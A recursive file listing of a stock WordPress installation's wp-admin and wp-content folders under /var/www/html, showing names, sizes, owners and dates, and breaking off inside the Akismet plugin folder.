-rw-r--r-- 1 www-data www-data  13K May  6  2017 colors.css
-rw-r--r-- 1 www-data www-data  12K Nov 15  2016 colors.min.css
-rw-r--r-- 1 www-data www-data  13K May  6  2017 colors-rtl.css
-rw-r--r-- 1 www-data www-data  12K Nov 15  2016 colors-rtl.min.css
-rw-r--r-- 1 www-data www-data  135 Feb  6  2014 colors.scss

/var/www/html/wp-admin/css/colors/ectoplasm:
total 68K
drwxr-xr-x 2 www-data www-data 4.0K Jun  8  2017 .
drwxr-xr-x 9 www-data www-data 4.0K Jun  8  2017 ..
-rw-r--r-- 1 www-data www-data  13K May  6  2017 colors.css
-rw-r--r-- 1 www-data www-data  12K Nov 15  2016 colors.min.css
-rw-r--r-- 1 www-data www-data  13K May  6  2017 colors-rtl.css
-rw-r--r-- 1 www-data www-data  12K Nov 15  2016 colors-rtl.min.css
-rw-r--r-- 1 www-data www-data  157 Feb  6  2014 colors.scss

/var/www/html/wp-admin/css/colors/light:
total 68K
drwxr-xr-x 2 www-data www-data 4.0K Jun  8  2017 .
drwxr-xr-x 9 www-data www-data 4.0K Jun  8  2017 ..
-rw-r--r-- 1 www-data www-data  14K May  6  2017 colors.css
-rw-r--r-- 1 www-data www-data  12K Jun  5  2017 colors.min.css
-rw-r--r-- 1 www-data www-data  14K May  6  2017 colors-rtl.css
-rw-r--r-- 1 www-data www-data  12K Jun  5  2017 colors-rtl.min.css
-rw-r--r-- 1 www-data www-data 1.1K Jul 15  2015 colors.scss

/var/www/html/wp-admin/css/colors/midnight:
total 68K
drwxr-xr-x 2 www-data www-data 4.0K Jun  8  2017 .
drwxr-xr-x 9 www-data www-data 4.0K Jun  8  2017 ..
-rw-r--r-- 1 www-data www-data  13K May  6  2017 colors.css
-rw-r--r-- 1 www-data www-data  12K Nov 15  2016 colors.min.css
-rw-r--r-- 1 www-data www-data  13K May  6  2017 colors-rtl.css
-rw-r--r-- 1 www-data www-data  12K Nov 15  2016 colors-rtl.min.css
-rw-r--r-- 1 www-data www-data  106 Feb  6  2014 colors.scss

/var/www/html/wp-admin/css/colors/ocean:
total 68K
drwxr-xr-x 2 www-data www-data 4.0K Jun  8  2017 .
drwxr-xr-x 9 www-data www-data 4.0K Jun  8  2017 ..
-rw-r--r-- 1 www-data www-data  13K May  6  2017 colors.css
-rw-r--r-- 1 www-data www-data  12K Nov 15  2016 colors.min.css
-rw-r--r-- 1 www-data www-data  13K May  6  2017 colors-rtl.css
-rw-r--r-- 1 www-data www-data  12K Nov 15  2016 colors-rtl.min.css
-rw-r--r-- 1 www-data www-data  157 Feb  6  2014 colors.scss

/var/www/html/wp-admin/css/colors/sunrise:
total 68K
drwxr-xr-x 2 www-data www-data 4.0K Jun  8  2017 .
drwxr-xr-x 9 www-data www-data 4.0K Jun  8  2017 ..
-rw-r--r-- 1 www-data www-data  13K May  6  2017 colors.css
-rw-r--r-- 1 www-data www-data  12K Nov 15  2016 colors.min.css
-rw-r--r-- 1 www-data www-data  13K May  6  2017 colors-rtl.css
-rw-r--r-- 1 www-data www-data  12K Nov 15  2016 colors-rtl.min.css
-rw-r--r-- 1 www-data www-data  166 Feb  6  2014 colors.scss

/var/www/html/wp-admin/images:
total 468K
drwxr-xr-x 2 www-data www-data 4.0K Jun  8  2017 .
drwxr-xr-x 9 www-data www-data 4.0K Jun  8  2017 ..
-rw-r--r-- 1 www-data www-data  147 Sep 27  2012 align-center-2x.png
-rw-r--r-- 1 www-data www-data  546 Sep 24  2012 align-center.png
-rw-r--r-- 1 www-data www-data  143 Sep 27  2012 align-left-2x.png
-rw-r--r-- 1 www-data www-data  554 Sep 24  2012 align-left.png
-rw-r--r-- 1 www-data www-data  121 Sep 27  2012 align-none-2x.png
-rw-r--r-- 1 www-data www-data  417 Sep 24  2012 align-none.png
-rw-r--r-- 1 www-data www-data  142 Sep 27  2012 align-right-2x.png
-rw-r--r-- 1 www-data www-data  509 Sep 24  2012 align-right.png
-rw-r--r-- 1 www-data www-data  863 Sep 27  2012 arrows-2x.png
-rw-r--r-- 1 www-data www-data  243 Nov  7  2012 arrows.png
-rw-r--r-- 1 www-data www-data  40K Jun 30  2015 browser.png
-rw-r--r-- 1 www-data www-data  40K Jul  5  2016 browser-rtl.png
-rw-r--r-- 1 www-data www-data  507 Feb 13  2014 bubble_bg-2x.gif
-rw-r--r-- 1 www-data www-data  398 Oct 28  2014 bubble_bg.gif
-rw-r--r-- 1 www-data www-data  258 Feb 13  2014 comment-grey-bubble-2x.png
-rw-r--r-- 1 www-data www-data  114 Nov  7  2012 comment-grey-bubble.png
-rw-r--r-- 1 www-data www-data  996 Oct 28  2014 date-button-2x.gif
-rw-r--r-- 1 www-data www-data  400 Oct 28  2014 date-button.gif
-rw-r--r-- 1 www-data www-data  719 Nov  7  2012 generic.png
-rw-r--r-- 1 www-data www-data  22K Oct 28  2014 icons32-2x.png
-rw-r--r-- 1 www-data www-data 7.9K Oct 28  2014 icons32.png
-rw-r--r-- 1 www-data www-data  21K Nov 25  2014 icons32-vs-2x.png
-rw-r--r-- 1 www-data www-data 7.9K Oct 28  2014 icons32-vs.png
-rw-r--r-- 1 www-data www-data 7.5K Oct 28  2014 imgedit-icons-2x.png
-rw-r--r-- 1 www-data www-data 4.0K Nov 25  2014 imgedit-icons.png
-rw-r--r-- 1 www-data www-data 1.5K Nov  7  2012 list-2x.png
-rw-r--r-- 1 www-data www-data 1003 Nov  7  2012 list.png
-rw-r--r-- 1 www-data www-data 2.3K Oct 28  2014 loading.gif
-rw-r--r-- 1 www-data www-data  360 Feb 13  2014 marker.png
-rw-r--r-- 1 www-data www-data 2.0K Sep 24  2012 mask.png
-rw-r--r-- 1 www-data www-data  850 Nov  7  2012 media-button-2x.png
-rw-r--r-- 1 www-data www-data  200 Oct 28  2014 media-button-image.gif
-rw-r--r-- 1 www-data www-data  206 Oct 28  2014 media-button-music.gif
-rw-r--r-- 1 www-data www-data  248 Oct 28  2014 media-button-other.gif
-rw-r--r-- 1 www-data www-data  323 Nov  7  2012 media-button.png
-rw-r--r-- 1 www-data www-data  133 Oct 28  2014 media-button-video.gif
-rw-r--r-- 1 www-data www-data  13K Oct 28  2014 menu-2x.png
-rw-r--r-- 1 www-data www-data 5.0K Oct 28  2014 menu.png
-rw-r--r-- 1 www-data www-data  13K Oct 28  2014 menu-vs-2x.png
-rw-r--r-- 1 www-data www-data 5.0K Oct 28  2014 menu-vs.png
-rw-r--r-- 1 www-data www-data  755 Nov  7  2012 no.png
-rw-r--r-- 1 www-data www-data 5.1K Oct 28  2014 post-formats32.png
-rw-r--r-- 1 www-data www-data 5.0K Oct 28  2014 post-formats32-vs.png
-rw-r--r-- 1 www-data www-data 2.2K Feb 13  2014 post-formats.png
-rw-r--r-- 1 www-data www-data 2.4K Oct 28  2014 post-formats-vs.png
-rw-r--r-- 1 www-data www-data  234 Feb 13  2014 resize-2x.gif
-rw-r--r-- 1 www-data www-data   70 Oct 28  2014 resize.gif
-rw-r--r-- 1 www-data www-data  233 Oct 28  2014 resize-rtl-2x.gif
-rw-r--r-- 1 www-data www-data  149 Oct 28  2014 resize-rtl.gif
-rw-r--r-- 1 www-data www-data  120 Nov  7  2012 se.png
-rw-r--r-- 1 www-data www-data   97 Oct 28  2014 sort-2x.gif
-rw-r--r-- 1 www-data www-data   55 Oct 28  2014 sort.gif
-rw-r--r-- 1 www-data www-data 8.4K Oct 28  2014 spinner-2x.gif
-rw-r--r-- 1 www-data www-data 4.1K Oct 28  2014 spinner.gif
-rw-r--r-- 1 www-data www-data 1.3K Nov  9  2012 stars-2x.png
-rw-r--r-- 1 www-data www-data  924 Nov  7  2012 stars.png
-rw-r--r-- 1 www-data www-data 6.0K Oct 28  2014 wheel.png
-rw-r--r-- 1 www-data www-data 3.1K Feb 13  2014 w-logo-blue.png
-rw-r--r-- 1 www-data www-data 5.3K Mar 10  2016 w-logo-white.png
-rw-r--r-- 1 www-data www-data 2.5K Nov  7  2012 wordpress-logo.png
-rw-r--r-- 1 www-data www-data 1.5K Apr  5  2015 wordpress-logo.svg
-rw-r--r-- 1 www-data www-data 1.7K Mar  9  2016 wordpress-logo-white.svg
-rw-r--r-- 1 www-data www-data 9.0K Oct 28  2014 wpspin_light-2x.gif
-rw-r--r-- 1 www-data www-data 2.2K Oct 28  2014 wpspin_light.gif
-rw-r--r-- 1 www-data www-data  825 Oct 28  2014 xit-2x.gif
-rw-r--r-- 1 www-data www-data  181 Oct 28  2014 xit.gif
-rw-r--r-- 1 www-data www-data  539 Sep 24  2012 yes.png

/var/www/html/wp-admin/includes:
total 2.3M
drwxr-xr-x 2 www-data www-data 4.0K Jun  8  2017 .
drwxr-xr-x 9 www-data www-data 4.0K Jun  8  2017 ..
-rw-r--r-- 1 www-data www-data 5.1K Jul 31  2016 admin-filters.php
-rw-r--r-- 1 www-data www-data 2.9K Aug 31  2016 admin.php
-rw-r--r-- 1 www-data www-data 112K May 19  2017 ajax-actions.php
-rw-r--r-- 1 www-data www-data 8.9K Jun 29  2016 bookmark.php
-rw-r--r-- 1 www-data www-data 3.1K Jul 22  2016 class-automatic-upgrader-skin.php
-rw-r--r-- 1 www-data www-data 1.9K Jul  9  2016 class-bulk-plugin-upgrader-skin.php
-rw-r--r-- 1 www-data www-data 2.0K Jul  9  2016 class-bulk-theme-upgrader-skin.php
-rw-r--r-- 1 www-data www-data 5.3K May 11  2017 class-bulk-upgrader-skin.php
-rw-r--r-- 1 www-data www-data  14K Jul  8  2016 class-core-upgrader.php
-rw-r--r-- 1 www-data www-data 3.3K Sep  6  2016 class-file-upload-upgrader.php
-rw-r--r-- 1 www-data www-data  27K Aug 31  2016 class-ftp.php
-rw-r--r-- 1 www-data www-data 5.3K Aug 26  2016 class-ftp-pure.php
-rw-r--r-- 1 www-data www-data 8.3K Aug 26  2016 class-ftp-sockets.php
-rw-r--r-- 1 www-data www-data  11K Aug 28  2016 class-language-pack-upgrader.php
-rw-r--r-- 1 www-data www-data 2.2K Jul  9  2016 class-language-pack-upgrader-skin.php
-rw-r--r-- 1 www-data www-data 192K Jul 19  2016 class-pclzip.php
-rw-r--r-- 1 www-data www-data 3.9K Sep 17  2016 class-plugin-installer-skin.php
-rw-r--r-- 1 www-data www-data  15K May  6  2017 class-plugin-upgrader.php
-rw-r--r-- 1 www-data www-data 2.6K Jul  9  2016 class-plugin-upgrader-skin.php
-rw-r--r-- 1 www-data www-data 3.8K Jul  9  2016 class-theme-installer-skin.php
-rw-r--r-- 1 www-data www-data  20K Nov 13  2016 class-theme-upgrader.php
-rw-r--r-- 1 www-data www-data 3.2K Jul  9  2016 class-theme-upgrader-skin.php
-rw-r--r-- 1 www-data www-data 4.1K Mar 29  2017 class-walker-category-checklist.php
-rw-r--r-- 1 www-data www-data 4.9K Oct 15  2015 class-walker-nav-menu-checklist.php
-rw-r--r-- 1 www-data www-data  11K Oct 10  2016 class-walker-nav-menu-edit.php
-rw-r--r-- 1 www-data www-data 3.2K Aug  4  2016 class-wp-ajax-upgrader-skin.php
-rw-r--r-- 1 www-data www-data  34K May 11  2017 class-wp-automatic-updater.php
-rw-r--r-- 1 www-data www-data  25K Mar 17  2017 class-wp-comments-list-table.php
-rw-r--r-- 1 www-data www-data  16K May 19  2017 class-wp-community-events.php
-rw-r--r-- 1 www-data www-data  23K Jul  6  2016 class-wp-filesystem-base.php
-rw-r--r-- 1 www-data www-data  12K Sep 10  2015 class-wp-filesystem-direct.php
-rw-r--r-- 1 www-data www-data  14K Jul 18  2016 class-wp-filesystem-ftpext.php
-rw-r--r-- 1 www-data www-data  11K Dec 28  2016 class-wp-filesystem-ftpsockets.php
-rw-r--r-- 1 www-data www-data  16K Apr 21  2016 class-wp-filesystem-ssh2.php
-rw-r--r-- 1 www-data www-data 7.2K Oct 19  2016 class-wp-importer.php
-rw-r--r-- 1 www-data www-data 4.3K Sep 22  2015 class-wp-internal-pointers.php
-rw-r--r-- 1 www-data www-data 7.7K Sep 28  2016 class-wp-links-list-table.php
-rw-r--r-- 1 www-data www-data 1.1K Aug 26  2016 class-wp-list-table-compat.php
-rw-r--r-- 1 www-data www-data  38K Dec 14  2016 class-wp-list-table.php
-rw-r--r-- 1 www-data www-data  23K May 23  2017 class-wp-media-list-table.php
-rw-r--r-- 1 www-data www-data  16K May 23  2017 class-wp-ms-sites-list-table.php
-rw-r--r-- 1 www-data www-data  20K Oct 19  2016 class-wp-ms-themes-list-table.php
-rw-r--r-- 1 www-data www-data  13K Mar 22  2017 class-wp-ms-users-list-table.php
-rw-r--r-- 1 www-data www-data  18K Oct  5  2016 class-wp-plugin-install-list-table.php
-rw-r--r-- 1 www-data www-data  32K Oct 31  2016 class-wp-plugins-list-table.php
-rw-r--r-- 1 www-data www-data 1.5K Oct 17  2015 class-wp-post-comments-list-table.php
-rw-r--r-- 1 www-data www-data  52K May 23  2017 class-wp-posts-list-table.php
-rw-r--r-- 1 www-data www-data  49K Mar  6  2017 class-wp-press-this.php
-rw-r--r-- 1 www-data www-data  34K May 19  2017 class-wp-screen.php
-rw-r--r-- 1 www-data www-data 6.1K Aug 25  2016 class-wp-site-icon.php
-rw-r--r-- 1 www-data www-data  18K Sep 30  2016 class-wp-terms-list-table.php
-rw-r--r-- 1 www-data www-data  15K Nov  8  2016 class-wp-theme-install-list-table.php
-rw-r--r-- 1 www-data www-data 9.2K Aug 31  2016 class-wp-themes-list-table.php
-rw-r--r-- 1 www-data www-data  33K Sep 18  2016 class-wp-upgrader.php
-rw-r--r-- 1 www-data www-data 5.2K Jul 22  2016 class-wp-upgrader-skin.php
-rw-r--r-- 1 www-data www-data 1.5K Dec  3  2016 class-wp-upgrader-skins.php
-rw-r--r-- 1 www-data www-data  16K May 23  2017 class-wp-users-list-table.php
-rw-r--r-- 1 www-data www-data 5.6K Jun 29  2016 comment.php
-rw-r--r-- 1 www-data www-data  20K May 24  2016 continents-cities.php
-rw-r--r-- 1 www-data www-data 1.9K Oct  3  2016 credits.php
-rw-r--r-- 1 www-data www-data  56K Jun  1  2017 dashboard.php
-rw-r--r-- 1 www-data www-data  38K May 10  2017 deprecated.php
-rw-r--r-- 1 www-data www-data 1.4K May 22  2016 edit-tag-messages.php
-rw-r--r-- 1 www-data www-data  23K Oct 25  2016 export.php
-rw-r--r-- 1 www-data www-data  52K May 16  2017 file.php
-rw-r--r-- 1 www-data www-data  33K Nov 19  2016 image-edit.php
-rw-r--r-- 1 www-data www-data  22K Feb 27  2017 image.php
-rw-r--r-- 1 www-data www-data 6.1K Oct  3  2016 import.php
-rw-r--r-- 1 www-data www-data 2.6K Aug 31  2016 list-table.php
-rw-r--r-- 1 www-data www-data 102K May  9  2017 media.php
-rw-r--r-- 1 www-data www-data 8.6K Jun 29  2016 menu.php
-rw-r--r-- 1 www-data www-data  50K May 11  2017 meta-boxes.php
-rw-r--r-- 1 www-data www-data  26K Oct 25  2016 misc.php
-rw-r--r-- 1 www-data www-data 1.3K Feb  7  2016 ms-admin-filters.php
-rw-r--r-- 1 www-data www-data 2.9K Jul  6  2016 ms-deprecated.php
-rw-r--r-- 1 www-data www-data  39K May 11  2017 ms.php
-rw-r--r-- 1 www-data www-data  42K Oct 27  2016 nav-menu.php
-rw-r--r-- 1 www-data www-data  24K Aug 23  2016 network.php
-rw-r--r-- 1 www-data www-data 1.2K Jan 25  2017 noop.php
-rw-r--r-- 1 www-data www-data 4.1K May  7  2017 options.php
-rw-r--r-- 1 www-data www-data  31K May 11  2017 plugin-install.php
-rw-r--r-- 1 www-data www-data  65K Jan 12  2017 plugin.php
-rw-r--r-- 1 www-data www-data  59K Apr 13  2017 post.php
-rw-r--r-- 1 www-data www-data  15K Aug 28  2016 revision.php
-rw-r--r-- 1 www-data www-data  37K Apr 10  2017 schema.php
-rw-r--r-- 1 www-data www-data 6.1K Jul  7  2016 screen.php
-rw-r--r-- 1 www-data www-data 7.6K May 26  2016 taxonomy.php
-rw-r--r-- 1 www-data www-data  77K May 23  2017 template.php
-rw-r--r-- 1 www-data www-data 6.2K Sep 28  2016 theme-install.php
-rw-r--r-- 1 www-data www-data  27K Mar 22  2017 theme.php
-rw-r--r-- 1 www-data www-data 8.4K May 11  2017 translation-install.php
-rw-r--r-- 1 www-data www-data  52K Jun  7  2017 update-core.php
-rw-r--r-- 1 www-data www-data  26K May  6  2017 update.php
-rw-r--r-- 1 www-data www-data  93K Jun  1  2017 upgrade.php
-rw-r--r-- 1 www-data www-data  18K Feb 26  2017 user.php
-rw-r--r-- 1 www-data www-data 9.6K Apr 19  2017 widgets.php

/var/www/html/wp-admin/js:
total 1.5M
drwxr-xr-x 3 www-data www-data 4.0K Jun  8  2017 .
drwxr-xr-x 9 www-data www-data 4.0K Jun  8  2017 ..
-rw-r--r-- 1 www-data www-data 2.9K Jul 29  2015 accordion.js
-rw-r--r-- 1 www-data www-data  835 Apr 15  2016 accordion.min.js
-rw-r--r-- 1 www-data www-data 3.9K Jun 18  2015 bookmarklet.js
-rw-r--r-- 1 www-data www-data 2.1K Oct 23  2016 bookmarklet.min.js
-rw-r--r-- 1 www-data www-data 5.4K Oct 25  2016 color-picker.js
-rw-r--r-- 1 www-data www-data 3.1K Oct 25  2016 color-picker.min.js
-rw-r--r-- 1 www-data www-data 2.0K Jul 26  2015 comment.js
-rw-r--r-- 1 www-data www-data 1.3K Jul 26  2015 comment.min.js
-rw-r--r-- 1 www-data www-data  28K May 12  2017 common.js
-rw-r--r-- 1 www-data www-data  14K May 11  2017 common.min.js
-rw-r--r-- 1 www-data www-data 2.2K Oct 26  2016 custom-background.js
-rw-r--r-- 1 www-data www-data 1.2K Oct 26  2016 custom-background.min.js
-rw-r--r-- 1 www-data www-data 1.5K Nov 14  2013 custom-header.js
-rw-r--r-- 1 www-data www-data 163K May 16  2017 customize-controls.js
-rw-r--r-- 1 www-data www-data  64K May 16  2017 customize-controls.min.js
-rw-r--r-- 1 www-data www-data  97K Apr  7  2017 customize-nav-menus.js
-rw-r--r-- 1 www-data www-data  43K Apr  7  2017 customize-nav-menus.min.js
-rw-r--r-- 1 www-data www-data  69K Apr 19  2017 customize-widgets.js
-rw-r--r-- 1 www-data www-data  28K Apr 19  2017 customize-widgets.min.js
-rw-r--r-- 1 www-data www-data  17K May 19  2017 dashboard.js
-rw-r--r-- 1 www-data www-data 6.9K May 19  2017 dashboard.min.js
-rw-r--r-- 1 www-data www-data  28K Mar 17  2017 edit-comments.js
-rw-r--r-- 1 www-data www-data  15K Mar 17  2017 edit-comments.min.js
-rw-r--r-- 1 www-data www-data  33K Oct 25  2016 editor-expand.js
-rw-r--r-- 1 www-data www-data  14K Nov  3  2016 editor-expand.min.js
-rw-r--r-- 1 www-data www-data  20K May 18  2017 editor.js
-rw-r--r-- 1 www-data www-data 8.1K May 18  2017 editor.min.js
-rw-r--r-- 1 www-data www-data 7.6K Nov 11  2010 farbtastic.js
-rw-r--r-- 1 www-data www-data 5.5K Oct  9  2015 gallery.js
-rw-r--r-- 1 www-data www-data 3.8K Oct  9  2015 gallery.min.js
-rw-r--r-- 1 www-data www-data  28K Jan 27  2017 image-edit.js
-rw-r--r-- 1 www-data www-data 9.6K Jan 27  2017 image-edit.min.js
-rw-r--r-- 1 www-data www-data  16K May 19  2017 inline-edit-post.js
-rw-r--r-- 1 www-data www-data 7.1K Mar 31  2017 inline-edit-post.min.js
-rw-r--r-- 1 www-data www-data 7.4K Sep 22  2016 inline-edit-tax.js
-rw-r--r-- 1 www-data www-data 2.7K Nov  3  2016 inline-edit-tax.min.js
-rw-r--r-- 1 www-data www-data  24K Oct 25  2016 iris.min.js
-rw-r--r-- 1 www-data www-data  625 Aug  4  2014 language-chooser.js
-rw-r--r-- 1 www-data www-data  374 Aug  4  2014 language-chooser.min.js
-rw-r--r-- 1 www-data www-data 2.2K Nov 15  2013 link.js
-rw-r--r-- 1 www-data www-data 1.7K Nov 13  2013 link.min.js
-rw-r--r-- 1 www-data www-data 1.2K Aug 20  2016 media-gallery.js
-rw-r--r-- 1 www-data www-data  537 Nov 13  2013 media-gallery.min.js
-rw-r--r-- 1 www-data www-data 3.0K Jun 26  2016 media.js
-rw-r--r-- 1 www-data www-data 1.9K Nov  3  2016 media.min.js
-rw-r--r-- 1 www-data www-data 2.0K Jan 13  2016 media-upload.js
-rw-r--r-- 1 www-data www-data 1.2K Nov  3  2016 media-upload.min.js
-rw-r--r-- 1 www-data www-data  42K Jan 20  2017 nav-menu.js
-rw-r--r-- 1 www-data www-data  21K Jan 20  2017 nav-menu.min.js
-rw-r--r-- 1 www-data www-data 2.4K Jul  1  2016 password-strength-meter.js
-rw-r--r-- 1 www-data www-data  784 Nov  3  2016 password-strength-meter.min.js
-rw-r--r-- 1 www-data www-data 6.2K Jul 31  2016 plugin-install.js
-rw-r--r-- 1 www-data www-data 2.3K Nov  3  2016 plugin-install.min.js
-rw-r--r-- 1 www-data www-data  12K Sep 22  2016 postbox.js
-rw-r--r-- 1 www-data www-data 4.1K Jun  8  2016 postbox.min.js
-rw-r--r-- 1 www-data www-data  37K Oct 25  2016 post.js
-rw-r--r-- 1 www-data www-data  18K Nov  3  2016 post.min.js
-rw-r--r-- 1 www-data www-data  26K Nov  7  2015 press-this.js
-rw-r--r-- 1 www-data www-data  12K Nov  3  2016 press-this.min.js
-rw-r--r-- 1 www-data www-data  33K Feb 17  2017 revisions.js
-rw-r--r-- 1 www-data www-data  18K Feb 17  2017 revisions.min.js
-rw-r--r-- 1 www-data www-data  777 Jun  1  2015 set-post-thumbnail.js
-rw-r--r-- 1 www-data www-data  525 Jun  1  2015 set-post-thumbnail.min.js
-rw-r--r-- 1 www-data www-data 5.4K Dec  5  2013 svg-painter.js
-rw-r--r-- 1 www-data www-data 2.4K Nov  3  2016 svg-painter.min.js
-rw-r--r-- 1 www-data www-data 6.7K Mar  6  2017 tags-box.js
-rw-r--r-- 1 www-data www-data 3.1K Mar  6  2017 tags-box.min.js
-rw-r--r-- 1 www-data www-data 2.8K May 12  2017 tags.js
-rw-r--r-- 1 www-data www-data 1.7K May 12  2017 tags.min.js
-rw-r--r-- 1 www-data www-data 5.1K Mar 31  2017 tags-suggest.js
-rw-r--r-- 1 www-data www-data 2.2K Mar 31  2017 tags-suggest.min.js
-rw-r--r-- 1 www-data www-data  52K May 23  2017 theme.js
-rw-r--r-- 1 www-data www-data  26K May 23  2017 theme.min.js
-rw-r--r-- 1 www-data www-data  78K May 16  2017 updates.js
-rw-r--r-- 1 www-data www-data  34K May 16  2017 updates.min.js
-rw-r--r-- 1 www-data www-data  13K May 12  2017 user-profile.js
-rw-r--r-- 1 www-data www-data 6.3K May 12  2017 user-profile.min.js
-rw-r--r-- 1 www-data www-data 1.1K Jan 27  2014 user-suggest.js
-rw-r--r-- 1 www-data www-data  679 Jan 27  2014 user-suggest.min.js
drwxr-xr-x 2 www-data www-data 4.0K Jun  8  2017 widgets
-rw-r--r-- 1 www-data www-data  18K Apr 19  2017 widgets.js
-rw-r--r-- 1 www-data www-data  11K Apr 19  2017 widgets.min.js
-rw-r--r-- 1 www-data www-data 7.6K Jan  6  2017 word-count.js
-rw-r--r-- 1 www-data www-data 1.5K Jul 27  2015 word-count.min.js
-rw-r--r-- 1 www-data www-data  684 May 13  2016 wp-fullscreen-stub.js
-rw-r--r-- 1 www-data www-data  331 Jun  1  2015 wp-fullscreen-stub.min.js
-rw-r--r-- 1 www-data www-data  628 Nov 14  2013 xfn.js
-rw-r--r-- 1 www-data www-data  441 Nov 14  2013 xfn.min.js

/var/www/html/wp-admin/js/widgets:
total 108K
drwxr-xr-x 2 www-data www-data 4.0K Jun  8  2017 .
drwxr-xr-x 3 www-data www-data 4.0K Jun  8  2017 ..
-rw-r--r-- 1 www-data www-data 3.8K May 22  2017 media-audio-widget.js
-rw-r--r-- 1 www-data www-data 1.5K May 11  2017 media-audio-widget.min.js
-rw-r--r-- 1 www-data www-data 4.3K May 15  2017 media-image-widget.js
-rw-r--r-- 1 www-data www-data 1.6K May 15  2017 media-image-widget.min.js
-rw-r--r-- 1 www-data www-data 6.3K May 22  2017 media-video-widget.js
-rw-r--r-- 1 www-data www-data 2.6K May 20  2017 media-video-widget.min.js
-rw-r--r-- 1 www-data www-data  36K May 25  2017 media-widgets.js
-rw-r--r-- 1 www-data www-data  13K May 25  2017 media-widgets.min.js
-rw-r--r-- 1 www-data www-data  11K May 22  2017 text-widgets.js
-rw-r--r-- 1 www-data www-data 3.1K May 11  2017 text-widgets.min.js

/var/www/html/wp-admin/maint:
total 16K
drwxr-xr-x 2 www-data www-data 4.0K Jun  8  2017 .
drwxr-xr-x 9 www-data www-data 4.0K Jun  8  2017 ..
-rw-r--r-- 1 www-data www-data 7.1K Jul  4  2016 repair.php

/var/www/html/wp-admin/network:
total 208K
drwxr-xr-x 2 www-data www-data 4.0K Jun  8  2017 .
drwxr-xr-x 9 www-data www-data 4.0K Jun  8  2017 ..
-rw-r--r-- 1 www-data www-data  263 Sep 27  2016 about.php
-rw-r--r-- 1 www-data www-data 1.1K Sep 27  2016 admin.php
-rw-r--r-- 1 www-data www-data  267 Sep 27  2016 credits.php
-rw-r--r-- 1 www-data www-data  855 Sep 27  2016 edit.php
-rw-r--r-- 1 www-data www-data  269 Sep 27  2016 freedoms.php
-rw-r--r-- 1 www-data www-data 2.8K May 18  2017 index.php
-rw-r--r-- 1 www-data www-data 4.1K Apr 10  2017 menu.php
-rw-r--r-- 1 www-data www-data  279 Sep 27  2016 plugin-editor.php
-rw-r--r-- 1 www-data www-data  390 Sep 27  2016 plugin-install.php
-rw-r--r-- 1 www-data www-data  267 Sep 27  2016 plugins.php
-rw-r--r-- 1 www-data www-data  272 Sep 27  2016 profile.php
-rw-r--r-- 1 www-data www-data  19K Oct 19  2016 settings.php
-rw-r--r-- 1 www-data www-data  265 Sep 27  2016 setup.php
-rw-r--r-- 1 www-data www-data 8.6K Jan 20  2017 site-info.php
-rw-r--r-- 1 www-data www-data 8.8K Apr 15  2017 site-new.php
-rw-r--r-- 1 www-data www-data 7.1K Oct 19  2016 site-settings.php
-rw-r--r-- 1 www-data www-data  11K Dec  9  2016 sites.php
-rw-r--r-- 1 www-data www-data 8.0K Dec 14  2016 site-themes.php
-rw-r--r-- 1 www-data www-data  13K May 18  2017 site-users.php
-rw-r--r-- 1 www-data www-data  277 Sep 27  2016 theme-editor.php
-rw-r--r-- 1 www-data www-data  387 Sep 27  2016 theme-install.php
-rw-r--r-- 1 www-data www-data  12K Dec  9  2016 themes.php
-rw-r--r-- 1 www-data www-data  271 Sep 27  2016 update-core.php
-rw-r--r-- 1 www-data www-data  458 Sep 27  2016 update.php
-rw-r--r-- 1 www-data www-data 4.6K Apr 10  2017 upgrade.php
-rw-r--r-- 1 www-data www-data  271 Sep 27  2016 user-edit.php
-rw-r--r-- 1 www-data www-data 4.7K Oct  4  2016 user-new.php
-rw-r--r-- 1 www-data www-data 8.6K Dec  9  2016 users.php

/var/www/html/wp-admin/user:
total 40K
drwxr-xr-x 2 www-data www-data 4.0K Jun  8  2017 .
drwxr-xr-x 9 www-data www-data 4.0K Jun  8  2017 ..
-rw-r--r-- 1 www-data www-data  275 Sep 25  2013 about.php
-rw-r--r-- 1 www-data www-data  842 May 22  2016 admin.php
-rw-r--r-- 1 www-data www-data  279 Sep 25  2013 credits.php
-rw-r--r-- 1 www-data www-data  281 Sep 25  2013 freedoms.php
-rw-r--r-- 1 www-data www-data  269 Nov  4  2014 index.php
-rw-r--r-- 1 www-data www-data  700 May  6  2014 menu.php
-rw-r--r-- 1 www-data www-data  270 Nov  4  2014 profile.php
-rw-r--r-- 1 www-data www-data  268 Nov  4  2014 user-edit.php

/var/www/html/wp-content:
total 24K
drwxr-xr-x 5 www-data www-data 4.0K Jul  2  2017 .
drwxr-xr-x 7 www-data www-data 4.0K Jul  2  2017 ..
-rw-r--r-- 1 www-data www-data   28 Jan  8  2012 index.php
drwxr-xr-x 3 www-data www-data 4.0K Jun  8  2017 plugins
drwxr-xr-x 5 www-data www-data 4.0K Jun  8  2017 themes
drwxr-xr-x 3 www-data www-data 4.0K Jul  2  2017 uploads

/var/www/html/wp-content/plugins:
total 20K
drwxr-xr-x 3 www-data www-data 4.0K Jun  8  2017 .
drwxr-xr-x 5 www-data www-data 4.0K Jul  2  2017 ..
drwxr-xr-x 4 www-data www-data 4.0K Jun  8  2017 akismet
-rw-r--r-- 1 www-data www-data 2.3K May 22  2013 hello.php
-rw-r--r-- 1 www-data www-data   28 Jun  5  2014 index.php

/var/www/html/wp-content/plugins/akismet:
total 172K
drwxr-xr-x 4 www-data www-data 4.0K Jun  8  2017 .
drwxr-xr-x 3 www-data www-data 4.0K Jun  8  2017 ..
-rw-r--r-- 1 www-data www-data 2.4K May 10  2017 akismet.php
-rw-r--r-- 1 www-data www-data  43K Jan  5  2017 class.akismet-admin.php
-rw-r--r-- 1 www-data www-data 2.7K Jun  6  2016 class.akismet-cli.php
-rw-r--r-- 1 www-data www-data  48K Apr 20  2017 class.akismet.php
-rw-r--r-- 1 www-data www-data 2.8K Sep  6  2016 class.akismet-widget.php
-rw-r--r-- 1 www-data www-data  629 May  9  2016 .htaccess
drwxr-xr-x 3 www-data www-data 4.0K Jun  8  2017 _inc
-rw-r--r-- 1 www-data www-data   26 Mar 10  2014 index.php
-rw-r--r-- 1 www-data www-data  18K Aug 24  2015 LICENSE.txt
-rw-r--r-- 1 www-data www-data  15K May 10  2017 readme.txt
drwxr-xr-x 2 www-data www-data 4.0K Jun  8  2017 views
-rw-r--r-- 1 www-data www-data 6.3K Sep 23  2016 wrapper.php

/var/www/html/wp-content/plugins/akismet/_inc:
total 36K
drwxr-xr-x 3 www-data www-data 4.0K Jun  8  2017 .
drwxr-xr-x 4 www-data www-data 4.0K Jun  8  2017 ..
